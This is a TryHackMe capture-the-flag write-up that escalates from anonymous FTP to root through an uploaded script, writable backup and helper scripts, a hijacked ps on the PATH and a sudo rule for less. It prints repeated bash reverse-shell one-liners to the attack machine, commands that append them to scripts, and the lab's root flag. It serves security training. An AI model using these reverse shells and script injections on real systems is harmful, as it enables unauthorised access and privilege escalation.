# Misconfigured Internal Automation Pipeline — TryHackMe Write-Up

## Objective

The objective of this lab was to exploit a series of misconfigured trust boundaries in an internal Linux automation pipeline and move laterally through multiple users:

```text
anonymous
    ↓
recon_user
    ↓
dev_user
    ↓
monitor_user
    ↓
ops_user
    ↓
root
```
https://gtfobins.org/#//^capabilities$
https://tryhackme.com/room/jump
### Lab Information

|Machine|IP Address|
|---|---|
|AttackBox|`10.48.64.227`|
|Target|`10.48.168.194`|

The main techniques used in this lab were:

- Anonymous FTP access
    
- Malicious script upload
    
- Reverse shells
    
- Writable scheduled/automation scripts
    
- PATH hijacking
    
- `sudo` enumeration
    
- Writable helper scripts
    
- Running `less` as root to read a protected file
    

---

# 1. Initial Enumeration

The first step was to identify what services were exposed on the target.

I ran:

```bash
nmap -sV 10.48.168.194
```

### Result

```text
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16
```



The target exposed:

- **FTP on port 21**
    
- **SSH on port 22**
    

Because the lab description mentioned an `incoming` folder where a script needed to be placed, FTP was the logical first service to investigate.

---

# 2. Anonymous FTP → recon_user

## 2.1 Connect to FTP

I connected to the FTP service:

```bash
ftp 10.48.168.194
```

I attempted anonymous authentication using:

```text
Username: anonymous
```

After successfully accessing FTP, I enumerated the available directories:

```ftp
ls
```

I looked for the `incoming` directory mentioned in the task.

Then:

```ftp
cd incoming
```

and:

```ftp
ls
```

The important discovery was that the `incoming` directory could be used to place a script for the internal automation pipeline to process.


---

# 3. Create the Malicious Recon Script

The task provided the reverse-shell payload.

My AttackBox IP was:

```text
10.48.64.227
```

I created a file called:

```text
test.sh
```

using:

```bash
nano test.sh
```

The contents were:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.48.64.227/5555 0>&1
```

I verified the contents with:

```bash
cat test.sh
```

The payload works by creating a Bash reverse shell from the target back to the AttackBox.


---

# 4. Start the Reverse-Shell Listener

Before uploading the script, I started a Netcat listener on the AttackBox(another terminal):

```bash
nc -lvnp 5555
```

The listener waited for the target to connect back to:

```text
10.48.64.227:5555
```


---

# 5. Upload `test.sh`

I connected to FTP again:

```bash
ftp 10.48.168.194
```

Logged in anonymously and entered:

```ftp
cd incoming
```

Then uploaded the malicious script:

```ftp
put test.sh
```

I verified that it was present:

```ftp
ls
```

The internal automation pipeline processed the uploaded script.

Because the script contained the reverse-shell payload, it connected back to my listener.


---

# 6. Obtain the recon_user Shell

When the connection arrived at the listener, I verified the current user:

```bash
whoami
```

Then:

```bash
id
```

The shell was running as:

```text
recon_user
```

I then checked the user's home directory:

```bash
ls -la /home/recon_user
```

and read the flag:

```bash
cat /home/recon_user/flag.txt
```

### Flag 1

The output of the command above is the flag for the `recon_user` stage.


---

# 7. recon_user → dev_user

The next objective was to move from:

```text
recon_user
    ↓
dev_user
```

The lab provided the vulnerable backup script:

```text
/opt/dev/backup.sh
```

---

## 7.1 Check the Backup Script

I checked its permissions:

```bash
ls -la /opt/dev/backup.sh
```

Then inspected its contents:

```bash
cat /opt/dev/backup.sh
```

The important point was that the current user could modify the script.

I confirmed write access with:

```bash
test -w /opt/dev/backup.sh && echo "Writable"
```

If writable, the command returned:

```text
Writable
```

This created the following privilege-escalation opportunity:

```text
recon_user
    ↓
Can modify backup.sh
    ↓
Automation executes backup.sh
    ↓
Code executes as dev_user
    ↓
dev_user shell
```


---

# 8. Add the Reverse Shell to `backup.sh`

I started another listener on the AttackBox:

```bash
nc -lvnp 5556
```

Then, as `recon_user`, I appended the reverse-shell command to the backup script:

```bash
echo 'bash -i >& /dev/tcp/10.48.64.227/5556 0>&1' >> /opt/dev/backup.sh
```

I verified that the payload was appended:

```bash
tail /opt/dev/backup.sh
```

The important line was:

```bash
bash -i >& /dev/tcp/10.48.64.227/5556 0>&1
```
![[Pasted image 20260911125330.png]]

---

# 9. Wait for the Backup Automation

The backup automation periodically executed:

```text
/opt/dev/backup.sh
```

Because I had modified the script, the reverse-shell command was executed when the automation ran.

The connection returned to:

```text
10.48.64.227:5556
```

I then checked the new shell:

```bash
whoami
```

and:

```bash
id
```

The result showed:

```text
dev_user
```


---

# 10. Get the dev_user Flag

I checked the home directory:

```bash
ls -la /home/dev_user
```

Then:

```bash
cat /home/dev_user/flag.txt
```

### Flag 2

The output of the command above is the flag for `dev_user`.

---

# 11. dev_user → monitor_user

The next privilege boundary used a **PATH hijacking vulnerability**.

The task explained that a healthcheck service executed:

```bash
ps
```

without specifying the full path.

Normally, the system would execute something such as:

```text
/usr/bin/ps
```

However, if an attacker can place a malicious executable earlier in the PATH, the system may execute the attacker's version instead.

The lab identified:

```text
/opt/dev/bin/ps
```

as the location to use.

---

# 12. Check `/opt/dev/bin`

As `dev_user`, I checked:

```bash
ls -la /opt/dev
```

Then:

```bash
ls -la /opt/dev/bin
```

I verified that I could work with the directory.


---

# 13. Create the Fake `ps` Binary

The malicious `ps` file contained the reverse-shell payload.

I created it with:

```bash
echo 'bash -i >& /dev/tcp/10.48.64.227/5557 0>&1' > /opt/dev/bin/ps
```

I verified it:

```bash
cat /opt/dev/bin/ps
```

The contents were:

```bash
bash -i >& /dev/tcp/10.48.64.227/5557 0>&1
```

---

# 14. Make the Fake `ps` Executable

I changed the permissions:

```bash
chmod +x /opt/dev/bin/ps
```

Then verified them:

```bash
ls -la /opt/dev/bin/ps
```

The file now had executable permissions.


---

# 15. Start the Monitor Reverse Shell Listener

On the AttackBox:

```bash
nc -lvnp 5557
```

I left the listener running.

When the internal healthcheck executed:

```bash
ps
```

the PATH configuration caused the system to find:

```text
/opt/dev/bin/ps
```

instead of the normal system `ps`.

The malicious file then executed the reverse shell.

---

# 16. Obtain the monitor_user Shell

Once the connection arrived, I verified:

```bash
whoami
```

and:

```bash
id
```

The shell was running as:

```text
monitor_user
```

I checked the home directory:

```bash
ls -la /home/monitor_user
```

Then:

```bash
cat /home/monitor_user/flag.txt
```

### Flag 3

The output of the command above is the `monitor_user` flag.


---

# 17. monitor_user → ops_user

Now I needed to move from:

```text
monitor_user
    ↓
ops_user
```

The first step was to enumerate `sudo` privileges.

I ran:

```bash
sudo -l
```

The important result was:

```text
User monitor_user may run the following commands on tryhackme-2404:
    (ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```

This means `monitor_user` could execute:

```text
/usr/local/bin/deploy.sh
```

as:

```text
ops_user
```

without entering a password.

---

# 18. Inspect `deploy.sh`

I checked the permissions:

```bash
ls -la /usr/local/bin/deploy.sh
```

Then:

```bash
cat /usr/local/bin/deploy.sh
```

The script contained:

```bash
#!/bin/bash
cd /opt/app 2>/dev/null
./deploy_helper.sh
```

This was important because the script changed into:

```text
/opt/app
```

and then executed:

```text
./deploy_helper.sh
```

Therefore, the actual helper being executed was:

```text
/opt/app/deploy_helper.sh
```


---

# 19. Check `deploy_helper.sh`

I inspected the directory:

```bash
ls -la /opt/app
```

Then the helper:

```bash
ls -la /opt/app/deploy_helper.sh
```

The result showed:

```text
-rwxr-xr-x 1 monitor_user monitor_user ...
```

This was a critical discovery.

The helper script belonged to:

```text
monitor_user
```

and I had write access to it.

I confirmed this using:

```bash
test -w /opt/app/deploy_helper.sh && echo "Writable"
```

The result was:

```text
Writable
```

---

# 20. Modify `deploy_helper.sh`

I started another listener on the AttackBox:

```bash
nc -lvnp 5558
```

Then I appended a reverse-shell command:

```bash
echo 'bash -i >& /dev/tcp/10.48.64.227/5558 0>&1' >> /opt/app/deploy_helper.sh
```

I verified the modified file:

```bash
cat /opt/app/deploy_helper.sh
```

It now contained the reverse-shell command.

---

# 21. Execute `deploy.sh` as ops_user

Because `sudo -l` showed:

```text
(ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```

I executed:

```bash
sudo -u ops_user /usr/local/bin/deploy.sh
```

The script executed:

```text
/opt/app/deploy_helper.sh
```

as `ops_user`.

Because I had modified `deploy_helper.sh`, my reverse-shell command executed as `ops_user`.

The shell connected back to:

```text
10.48.64.227:5558
```


---

# 22. Verify ops_user

I verified the new shell:

```bash
whoami
```

and:

```bash
id
```

The result showed:

```text
ops_user
```

I then checked:

```bash
ls -la /home/ops_user
```

and read the flag:

```bash
cat /home/ops_user/flag.txt
```

### Flag 4

The output of the command above is the `ops_user` flag.


---

# 23. ops_user → root

The final privilege boundary was discovered with:

```bash
sudo -l
```

The important result was:

```text
User ops_user may run the following commands on tryhackme-2404:
    (root) NOPASSWD: /usr/bin/less
```

This means:

```text
ops_user
    ↓
sudo
    ↓
/usr/bin/less
    ↓
root
```

The key point is that `less` could be executed as root without requiring a password.

---

# 24. Inspect `/usr/bin/less`

I checked the file:

```bash
ls -la /usr/bin/less
```

The result showed:

```text
-rwxr-xr-x 1 root root ...
```

I also checked the binary type:

```bash
file /usr/bin/less
```

The result identified it as an ELF executable.

The important discovery wasn't its file permissions. The important part was the `sudo` rule allowing it to run as root.

---

# 25. Read the Root Flag

Instead of trying to obtain a root shell, I used the permitted `less` command directly to read the root flag:

```bash
sudo -u root less /root/flag.txt
```

This successfully displayed:

```text
THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}
```

### Root Flag

```text
THM{2b8e6c4a-1d55-4f90-a3c7-5e9d1b7f6a22}
```

This completed the lab.


---

# Complete Attack Chain

The entire privilege-escalation chain was:

```text
                    TARGET
                       │
                       ▼
               Anonymous FTP
                       │
                       ▼
                incoming/test.sh
                       │
                       │ reverse shell :5555
                       ▼
                 recon_user
                       │
                       │ modify
                       ▼
             /opt/dev/backup.sh
                       │
                       │ reverse shell :5556
                       ▼
                  dev_user
                       │
                       │ PATH hijacking
                       ▼
                /opt/dev/bin/ps
                       │
                       │ reverse shell :5557
                       ▼
                monitor_user
                       │
                       │ sudo -l
                       ▼
             /usr/local/bin/deploy.sh
                       │
                       ▼
            /opt/app/deploy_helper.sh
                       │
                       │ writable by monitor_user
                       │ reverse shell :5558
                       ▼
                  ops_user
                       │
                       │ sudo -l
                       ▼
                  /usr/bin/less
                       │
                       │ run as root
                       ▼
                    ROOT
                       │
                       ▼
                /root/flag.txt
```

---

# Important Commands Used

## Enumeration

```bash
nmap -sV 10.48.168.194
```

Service/version enumeration.

```bash
ls -la
```

Lists files, directories, ownership, and permissions.

```bash
cat /path/to/file
```

Reads a file.

```bash
test -w /path/to/file && echo "Writable"
```

Checks whether the current user can write to a file.

```bash
sudo -l
```

Shows commands the current user is allowed to execute through `sudo`.

```bash
whoami
```

Shows the current username.

```bash
id
```

Shows UID, GID, and group membership.

---

# Reverse Shells Used

## recon_user

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.48.64.227/5555 0>&1
```

Listener:

```bash
nc -lvnp 5555
```

## dev_user

```bash
echo 'bash -i >& /dev/tcp/10.48.64.227/5556 0>&1' >> /opt/dev/backup.sh
```

Listener:

```bash
nc -lvnp 5556
```

## monitor_user

```bash
echo 'bash -i >& /dev/tcp/10.48.64.227/5557 0>&1' > /opt/dev/bin/ps
```

Make executable:

```bash
chmod +x /opt/dev/bin/ps
```

Listener:

```bash
nc -lvnp 5557
```

## ops_user

```bash
echo 'bash -i >& /dev/tcp/10.48.64.227/5558 0>&1' >> /opt/app/deploy_helper.sh
```

Listener:

```bash
nc -lvnp 5558
```

---

# Key Privilege-Escalation Concepts

## 1. Writable Script Executed by Another User

The important pattern was:

```text
Low-privileged user
        ↓
Can modify script
        ↓
Higher-privileged process executes script
        ↓
Code executes with higher privileges
```

This happened with:

```text
/opt/dev/backup.sh
```

and:

```text
/opt/app/deploy_helper.sh
```

---

## 2. PATH Hijacking

The healthcheck executed:

```bash
ps
```

instead of:

```bash
/usr/bin/ps
```

Therefore, if an attacker-controlled directory appears earlier in `$PATH`, a malicious `ps` can be executed.

In this lab:

```text
/opt/dev/bin/ps
```

was used as the malicious executable.

---

## 3. Sudo Misconfiguration

`sudo -l` revealed:

```text
(ops_user) NOPASSWD: /usr/local/bin/deploy.sh
```

and later:

```text
(root) NOPASSWD: /usr/bin/less
```

These rules created the privilege boundaries needed to move to the next user.

---

## 4. Least Privilege Failure

The automation pipeline trusted the previous stage too much.

Each stage assumed that files/scripts used by the next stage were trustworthy.

The result was:

```text
anonymous
   ↓
untrusted uploaded script
   ↓
recon_user
   ↓
untrusted backup modification
   ↓
dev_user
   ↓
untrusted PATH executable
   ↓
monitor_user
   ↓
untrusted helper script
   ↓
ops_user
   ↓
overly powerful sudo permission
   ↓
root
```

The core lesson is:

> **Whenever a privileged process executes a file, command, script, or binary, check whether a lower-privileged user can influence it.**